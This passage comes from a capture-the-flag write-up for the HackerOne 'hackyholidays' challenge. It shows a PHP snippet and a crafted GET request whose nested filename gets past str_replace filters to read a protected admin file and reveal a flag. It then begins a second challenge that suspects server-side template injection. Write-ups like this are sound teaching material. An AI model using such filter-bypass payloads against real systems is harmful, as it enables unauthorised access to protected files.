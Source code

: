 ```php
<?php

    $page = 'secretadmin.phpadminadmin.phpsecretadmin.phpadminadmin.php.php.php';
    
    $page = preg_replace('/([^a-zA-Z0-9.])/','',$page);
    $page = str_replace("admin.php","",$page);
    $page = str_replace("secretadmin.php","",$page);
    echo $page
?>
```
This bypasses the 3 filters and lets me access the `secretadmin.php` file containing the flag:

```
GET /my-diary/?template=secretadmin.phpadminadmin.phpsecretadmin.phpadminadmin.php.php.php HTTP/1.1
Host: hackyholidays.h1ctf.com
{redacted}
```
```html
{redacted}
<h4 class="text-center">
flag{18b130a7-3a79-4c70-b73b-7f23fa95d395}
</h4>
```

---------------------------------

## Flag 7 - Access blocked content with an email template

This challenge starts in `/hate-mail-generator`. There we can see the "guess that" email, with a really weird markup:

```markdown
{{template:cbdj3_grinch_header.html}} Hi {{name}}..... Guess what..... <strong>YOU SUCK!</strong>{{template:cbdj3_grinch_footer.html}}
```

But when clicking the `preview` button both `{{template:cbdj3_grinch_header.html}}` and `{{template:cbdj3_grinch_footer.html}}` were replaced with images. 

{F1121611}

Interesting, at first look seems like server-side template injection might be possible with `{{}}` to try and read something sensitive.

After a bit of fuzzing resulting in finding https://hackyholidays.h1ctf.com/hate-mail-generator/templates/ and understanding what was happening in https://hackyholidays.h1ctf.com/hate-mail-generator/new when trying to create an email I came with the solution, but let me explain my thought process step by step.

In https://hackyholidays.h1ctf.com/hate-mail-generator/templates/ we have 3 files. The 3 of them return code 403 when trying to read/view them directly, bue we already know the content of 2 of them because we already saw them in `https://hackyholidays.h1ctf.com/hate-mail-generator/91d45040151b681549d82d8065d43030`. There is one last file that we didn't see yet: `38dhs_admins_only_header.html`, and that's our objective.
